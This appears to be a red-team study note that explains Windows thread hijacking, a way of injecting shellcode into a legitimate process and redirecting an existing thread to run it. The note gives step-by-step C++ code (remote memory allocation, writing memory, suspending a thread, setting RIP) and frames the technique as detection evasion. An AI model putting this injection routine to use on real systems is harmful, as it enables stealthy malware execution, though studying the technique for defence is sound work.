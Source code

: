 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-process-components/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
Thread hijacking is a technique used by attackers to inject code (shellcode) into an existing **thread** of a legitimate process, then **redirect** that thread to execute their **malicious code** instead.

It is much stealthier than creating a new thread such as `CreateRemoteThread` because you'r hijacking an existing thread, making it harder to detect.

A _thread_ is like a **worker** inside a program (restuarant) that performs a specific task in order to ensure the program (restaurant) runs smoothly.
## Steps
---
**Step 1: Open the Target Process**

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
```

- Locate the **target** process by it's PID.
- Use `OpenProcess` to get a handle to the process with **full access** (`PROCESS_ALL_ACCESS`) so we can write to it and manipulate its memory/threads.

**Step 2: Allocate Memory in the Target Process**

```cpp
PVOID remoteBuffer = VirtualAllocEx(
    hProcess,
    NULL,
    sizeof shellcode,
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Reserves and commits memory within the **remote process**.

- The allocated memory will store the **malicious shellcode**, hence we use `sizeof shellcode`.

- `PAGE_EXECUTE_READWRITE` allows the code to be executed, read, and written.

**Step 3: Write Shellcode to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess,
    remoteBuffer,
    shellcode,
    sizeof shellcode,
    NULL
);
```

Inject the **shellcode** (malicious payload) into the **allocated memory** inside the target process.

**Step 4: Take a Snapshot of All Threads**

```cpp
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
```

- Takes a **snapshot of all threads** running on the system.
    
- Needed to identify which thread **belongs** to the target process.

**Step 5: Find a Thread from the Target Process**

```cpp
THREADENTRY32 threadEntry;
Thread32First(hSnapshot, &threadEntry);

while (Thread32Next(hSnapshot, &threadEntry)) {
    if (threadEntry.th32OwnerProcessID == processId) {
        // Found thread belonging to our target process 
        // The code inside this if condition is at step 6
    }
}
```

Loops through all threads and checks if any of them belong to the target process (`th32OwnerProcessID` == target PID).

**Step 6: Open the Target Thread**

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS,
    FALSE,
    threadEntry.th32ThreadID
);
```

- Opens the **target thread** found in the previous step.

- Grants **full control** over the thread (read, write, suspend, etc.).

**Step 7: Suspend the Target Thread**

```cpp
SuspendThread(hThread);
```

Freezes the thread so we can **safely manipulate** its execution context.

**Step 8: Get the Thread's Context**

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

GetThreadContext(hThread, &context);
```

- Retrieves the **execution context** of the thread.
    
- This includes register values like the **instruction pointer (RIP)**.

**Step 9: Set RIP to Our Shellcode**

```cpp
context.Rip = (DWORD_PTR)remoteBuffer;
```

- **Modifies the Instruction Pointer (RIP)** to point to our **malicious shellcode**.
    
- RIP determines the next instruction the CPU will execute.

**Step 10: Apply the Modified Context**

```cpp
SetThreadContext(hThread, &context);
```

- **Writes back** the modified thread context.
    
- The thread will now execute the shellcode once resumed.

**Step : Resume Thread**

```cpp
ResumeThread(hThread);
```

- Resumes the previously suspended thread.
    
- Execution jumps to our shellcode in the remote process.

### Prerequisite in order to work
---
- **High privileges** especially `PROCESS_ALL_ACCESS` and `THREAD_ALL_ACCESS`
- Target process must allow memory allocation and thread manipulation (i.e., not protected by kernel drivers like anti-virus)
- Architecture match: injector must match target process — both x86 or both x64
